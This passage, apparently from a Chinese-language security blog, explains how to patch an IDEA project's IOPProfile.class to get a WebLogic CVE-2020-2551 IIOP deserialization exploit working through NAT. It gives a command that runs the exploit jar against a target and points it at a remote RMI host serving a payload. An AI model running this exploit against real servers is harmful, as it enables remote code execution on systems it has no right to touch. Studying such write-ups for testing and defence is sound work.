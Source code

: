 1.Idea 导入项目

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://raw.githubusercontent.com/mstxq17/figuredbed/master/imgimage-20200409090513655.png)

2.重写Opprofile.class类

路径如下:

`CVE-2020-2551srclibwlfullclient.jar!weblogiciiopIOPProfile.class`

IDEA定位进去:

修改过程:

```
无源码的情况下，修改.class文件内容：

1、在开发工具（idea）中建立一个包名、类名完全相同的类文件。

2、将.class文件中的内容复制到自己新建的类中进行修改.

3、完成后，重新编译、启动，修改内容生效。

ps.直接在src目录下新建一个同类的文件，copy下代码过来就行，idea会根据包名自动编译的。
```

[![](https://raw.githubusercontent.com/mstxq17/figuredbed/master/imgimage-20200409092922756.png)](https://raw.githubusercontent.com/mstxq17/figuredbed/master/imgimage-20200409092922756.png)

[![](https://raw.githubusercontent.com/mstxq17/figuredbed/master/imgimage-20200409093415722.png)](https://raw.githubusercontent.com/mstxq17/figuredbed/master/imgimage-20200409093415722.png)

然后我们重新编译项目打包就好了。

[![](https://raw.githubusercontent.com/mstxq17/figuredbed/master/imgimage-20200409094813785.png)](https://raw.githubusercontent.com/mstxq17/figuredbed/master/imgimage-20200409094813785.png)

```
java -jar CVE-2020-2551.jar 192.168.0.3 7001 rmi://192.168.0.3:1099/exp
```

[![](https://raw.githubusercontent.com/mstxq17/figuredbed/master/imgimage-20200409095646653.png)](https://raw.githubusercontent.com/mstxq17/figuredbed/master/imgimage-20200409095646653.png)

这样子就可以成功了。

**Ps.**

关于这个洞出现的坑点，要一一解决的话,我们就需要梳理清楚IIOP的交互逻辑及其数据格式。有兴趣可以读一下下文，尝试自己写一个交互。

[Weblogic CVE-2020-2551 IIOP协议反序列化RCE](https://y4er.com/post/weblogic-cve-2020-2551/)

上面能不能动态修改呢？ 毕竟修改一行代码有点难度。

工具化的解决nat问题的话，后面我们再细讨吧,毕竟我也是个小萌新。



## 0x7 总结
